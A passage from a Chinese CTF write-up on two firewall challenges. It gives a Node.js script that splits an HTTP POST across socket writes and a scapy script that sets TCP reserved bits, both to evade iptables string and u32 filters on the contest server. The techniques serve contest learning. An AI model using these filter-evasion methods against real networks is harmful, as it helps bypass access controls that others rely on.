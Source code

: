 最后还是GPT告诉我可以考虑把POST分开来发：

```jsx
import { Socket } from 'node:net';

const client = new Socket()
client.connect(18080, '202.38.93.111')

client.on('data', (data) => console.log(data.toString()))

client.write('PO')
client.write("ST / HTTP/1.1\r\nHost: example.com\r\nContent-Length: 99\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n{TOKEN}\r\n");
```

第二问：

搜索发现这个 [tutorial](http://www.stearns.org/doc/iptables-u32.current.html) ，照着学了一会儿，然后发现题目给的 `"0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50"` 和这题给的demo有点像啊。那么是哪里不一样呢？答案是少了 `&0x3C` 部分，发现这一部分刚好是 TCP reseverd bits 的位置。那么答案就很简单了，只要想办法构造一个 reseverd bits 全1的请求就可以了。

但是构造这个请求花了不少时间，由于阿斌的计网成绩并不理想，只能依赖搜索引擎和GPT来得到答案。搜索得到了[这个答案](https://stackoverflow.com/questions/4134925/access-and-change-the-reserved-bits-on-tcp-header)，提到有三种可能的解。由于阿斌还是Linux苦手，在进行了若干次尝试后，不得不放弃了抓包并修改的想法，转为构造TCP包。

查阅文档并使用GPT后写出来了这个（姑且能用的）的程序：

```python
from scapy.all import *

# 设置目标IP地址和端口
target_ip = "202.38.93.111"
target_port = 18081

# 构建一个IP包
ip = IP(dst=target_ip)

# 构建一个TCP包
tcp = TCP(sport=RandShort(), dport=target_port, flags="S")

# 发送TCP握手包
tcp_synack = sr1(ip/tcp)

# 构建HTTP GET请求
get_request = "POST / HTTP/1.1\r\nHost: " + target_ip + "\r\nContent-Length: 99\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n{TOKEN}\r\n"

# 设置TCP响应和ACK
tcp = TCP(sport=tcp_synack[TCP].dport, dport=target_port, flags="A", seq=tcp_synack[TCP].ack, ack=tcp_synack[TCP].seq + 1)
tcp.reserved = 7

# 发送HTTP GET请求
send(ip/tcp/Raw(load=get_request))
```


[1]: 一共132560个解